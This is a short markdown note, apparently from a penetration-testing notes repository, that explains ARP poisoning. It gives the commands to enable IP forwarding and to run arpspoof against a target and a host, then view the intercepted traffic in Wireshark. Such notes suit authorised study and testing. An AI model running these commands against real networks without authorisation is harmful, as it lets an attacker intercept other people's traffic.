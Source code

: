 # Arp Poisoning

### Introduction

It works by sending Gratious Arp Replies to the target machine which enables them to update their arp cache with fake information. Every 30s, an arp reply is sent to update the table.



### Dnsiff Arpspoof

1. Enable IP Forwarding

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

THen run arpspoof

```
arpspoof -i <interface> -t <target> -r <host>
```

Target and hosts are victim ip addresses . Finally, wireshark can be run to view the trafffic.

